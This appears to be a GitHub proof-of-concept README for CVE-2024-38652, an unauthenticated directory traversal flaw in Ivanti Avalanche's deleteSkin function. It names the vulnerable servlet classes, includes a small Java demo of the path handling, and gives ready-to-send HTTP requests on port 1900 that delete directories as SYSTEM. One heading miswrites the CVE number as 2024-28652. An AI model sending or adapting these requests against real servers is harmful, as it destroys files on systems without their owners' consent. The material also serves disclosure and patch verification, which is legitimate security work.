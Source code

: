 ## CVE-2024-38652
## VULNERABILITY DETAILS	

Ivanti Avalanche deleteSkin Directory Traversal Arbitrary File Deletion Vulnerability

This vulnerability allows remote attackers to delete arbitrary files on affected installations of Ivanti Avalanche. Authentication is not required to exploit this vulnerability.

The specific flaw exists within the deleteSkin method. The issue results from the lack of proper validation of a user-supplied path prior to using it in file operations. An attacker can leverage this vulnerability to delete files in the context of SYSTEM.

## VULNERABILITY
Ivanti Avalanche premise 6.3.1.1507 (tested)

Check C:\Program Files\Wavelink\Avalanche\RemoteControl\lib\RemoteControlServer.jar

com.wavelink.remotecontrol.server.servlets.SkinsServlet
![image](https://github.com/user-attachments/assets/ad7addb2-6768-4bf8-9b0a-a5a6f4889d0b)
![image](https://github.com/user-attachments/assets/1dc56de8-c766-4e49-a7ba-0f872f8c23a4)


## Example code
```
import java.io.File;
class HelloWorld {
    public static void main(String[] args) {
        File file = new File("", "..");
        System.out.println(file.getName());
        file = new File("./web/skins",file.getName());
        System.out.println(file);
    }
}
```
![image](https://github.com/user-attachments/assets/14a033a3-4a5d-4a84-9222-18646cd24f13)
![image](https://github.com/user-attachments/assets/df443415-48ba-46c3-90e7-c5d903774441)


## CVE-2024-28652-Poc

Request /Servlet/Skins?action=deleteSkin&guid=.. endpoint unauthenticated
```
<Host>:1900/Servlet/Skins?action=deleteSkin&guid=..
```
https://github.com/user-attachments/assets/d618690b-2a8a-472f-9d12-2cab703e6eb4



There is also an unauthenticated endpoint ``` <Host>:1900/app/rc?cmd=deleteSkin&guid={{directory}} ```  but has a valid directory check

Delete directory AUTODETECT with: ``` <Host>:1900/app/rc?cmd=deleteSkin&guid=AUTODETECT ```

directory AUTODETECT is default in C:\Program Files\Wavelink\Avalanche\RemoteControl\web\skins

Check file C:\Program Files\Wavelink\Avalanche\RemoteControl\app.war

com.wavelink.remotecontrol.app.servlets.RCServlet

## References:
- https://forums.ivanti.com/s/article/Security-Advisory-Ivanti-Avalanche-6-4-4-CVE-2024-38652-CVE-2024-38653-CVE-2024-36136-CVE-2024-37399-CVE-2024-37373?language=en_US
- https://www.zerodayinitiative.com/advisories/ZDI-24-1149/

